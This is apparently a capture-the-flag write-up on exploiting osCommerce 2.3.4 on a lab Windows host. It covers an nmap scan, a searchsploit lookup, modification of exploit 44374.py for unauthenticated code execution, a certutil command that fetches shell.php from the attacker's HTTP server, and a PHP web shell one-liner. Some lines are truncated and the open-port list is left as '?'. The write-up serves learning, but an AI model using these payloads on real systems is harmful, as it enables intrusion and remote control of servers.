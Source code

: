 #Windows # #


**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.83.191
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)


 Open Ports

* ?
* ?

Port 8080/tcp is open, it takes us to the following website.


![image](https://user-images.githubusercontent.com/99097743/170898695-0f88913c-e395-43be-a7f8-ded690c878f7.png)

OSCommerce is an e-commerce and online store-management software program

(Ref: https://en.wikipedia.org/wiki/OsCommerce)



A quick **serchsploit** search on **osCommerce 2.3.4** shows the following vulnerabilities:

![image](https://user-images.githubusercontent.com/99097743/170889834-7bc4cd09-df46-41b0-ac76-48e7dc3e57ae.png)

**Exploit title: osCommerce 2.3.4.1 - Remote Code Execution (PATH: php/webapps/44374.py)**

* It is an interesting exploit as it does not require credentials.
* An unauthorized attacker can reinstall, ff installation directory has not been removed.  
* During the reinstallation process, OS commerce does not attempt to do any authentication, it simple executes the code. 

We need to update the followings inputs:

1) base_url: base_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/"
2) target_url: target_url = "http://10.10.83.191:8080/oscommerce-2.3.4/catalog/install/install>
3) Payload: payload += 'exec("certutil.exe -urlcache -f 10.10.83.191:8080/shell.php shell.p>


![image](https://user-images.githubusercontent.com/99097743/170901248-239aad25-20dc-48a4-9e8d-b17b2190bffe.png)

We need to launch the exploit:

```sh
  python ./44374_modified.py
  ```

  ![image](https://user-images.githubusercontent.com/99097743/170891095-908551f8-3745-40a3-b618-8c2f0616985f.png)  
  This message means our code is injected but we need open the URL above in our browser to execute the code:
  
  ![image](https://user-images.githubusercontent.com/99097743/170891198-c029d698-81fc-4f52-bdf8-0db9b12d0dd4.png)

  
  We can follow the steps below to check the output:
  
  1) Change the paylod in the python script to a ping command for the localhost: **payload += 'exec("ping 10.18.123.93");'**
  2) Open a tcpump session and capture the ICMP packages: **sudo tcpdump -i tun0 icmp**


Great, the code is successfully getting executed! Now we need to work on the actual SHELL.PHP payload

Here are the steps -- Please see the picture below for a visual illustration:

1) Generate a simple web shell in localhost: 

```sh
<?php echo shell_exec($_GET["cmd"]); ?>
```

2) Transfer PHP payload through an HTTP server 

```sh
'exec("certutil.exe -urlcache -f http://10.18.123.93:8000/shell.php shell.php");'
```

3) Refresh the browser and trigger the process. 

![Screenshot 2022-05-29 215707](https://user-images.githubusercontent.com/99097743/170910606-a77516e1-d2b4-4451-9e6f-f0e397f16a54.png)


